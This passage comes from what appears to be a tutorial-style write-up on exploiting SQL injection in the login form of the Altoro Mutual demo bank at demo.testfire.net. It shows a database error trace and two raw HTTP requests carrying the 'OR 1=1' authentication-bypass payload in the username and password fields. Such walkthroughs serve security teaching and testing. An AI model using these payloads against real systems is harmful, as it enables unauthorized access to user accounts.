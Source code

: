 ~~~
System.Data.OleDb.OleDbException: Syntax error (missing operator) in query expression 'username = 'admin'' AND password = 'test''. at System.Data.OleDb.OleDbCommand.ExecuteCommandTextErrorHandling(OleDbHResult hr) at System.Data.OleDb.OleDbCommand.ExecuteCommandTextForSingleResult(tagDBPARAMS dbParams, Object& executeResult) at System.Data.OleDb.OleDbCommand.ExecuteCommandText(Object& executeResult) at System.Data.OleDb.OleDbCommand.ExecuteCommand(CommandBehavior behavior, Object& executeResult) at System.Data.OleDb.OleDbCommand.ExecuteReaderInternal(CommandBehavior behavior, String method) at System.Data.OleDb.OleDbCommand.ExecuteReader(CommandBehavior behavior) at System.Data.OleDb.OleDbCommand.System.Data.IDbCommand.ExecuteReader(CommandBehavior behavior) at System.Data.Common.DbDataAdapter.FillInternal(DataSet dataset, DataTable[] datatables, Int32 startRecord, Int32 maxRecords, String srcTable, IDbCommand command, CommandBehavior behavior) at System.Data.Common.DbDataAdapter.Fill(DataSet dataSet, Int32 startRecord, Int32 maxRecords, String srcTable, IDbCommand command, CommandBehavior behavior) at System.Data.Common.DbDataAdapter.Fill(DataSet dataSet, String srcTable) at Altoro.Authentication.ValidateUser(String uName, String pWord) in d:downloadsAltoroMutual_v6websitanklogin.aspx.cs:line 68 at Altoro.Authentication.Page_Load(Object sender, EventArgs e) in d:downloadsAltoroMutual_v6websitanklogin.aspx.cs:line 33 at System.Web.Util.CalliHelper.EventArgFunctionCaller(IntPtr fp, Object o, Object t, EventArgs e) at System.Web.Util.CalliEventHandlerDelegateProxy.Callback(Object sender, EventArgs e) at System.Web.UI.Control.OnLoad(EventArgs e) at System.Web.UI.Control.LoadRecursive() at System.Web.UI.Page.ProcessRequestMain(Boolean includeStagesBeforeAsyncPoint, Boolean includeStagesAfterAsyncPoint)
~~~

*Single quotes* are obvisouly not escaped so we could inject some SQL statements. Let's try some common ones likeÂ **admin' OR 1=1;-**:

~~~.html
POST /bank/login.aspx HTTP/1.1
Host: demo.testfire.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:10.0.6) Gecko/20100101 Firefox/10.0.6
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip, deflate
Proxy-Connection: keep-alive
Referer: http://demo.testfire.net/bank/login.aspx
Cookie: ASP.NET_SessionId=2ks1fprgokgkd0jthbms3d25; amSessionId=62733112717
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
uid=admin' OR 1=1;--&passw=test&btnSubmit=Login
~~~

The result looks very promising! We were able to login without specifying any password. All you need is a valid username. The same vulnerability applies to theÂ *password* field as well. Following request will work too:

~~~.html
POST /bank/login.aspx HTTP/1.1
Host: demo.testfire.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:10.0.6) Gecko/20100101 Firefox/10.0.6
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip, deflate
Proxy-Connection: keep-alive
Referer: http://demo.testfire.net/bank/login.aspx
Cookie: ASP.NET_SessionId=2ks1fprgokgkd0jthbms3d25; amSessionId=62733112717; amUserInfo=UserName=YWRtaW4nIE9SIDE9MjstLQ==&Password=dGVzdA==
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
uid=admin&passw=' OR 1=1;--&btnSubmit=Login
~~~
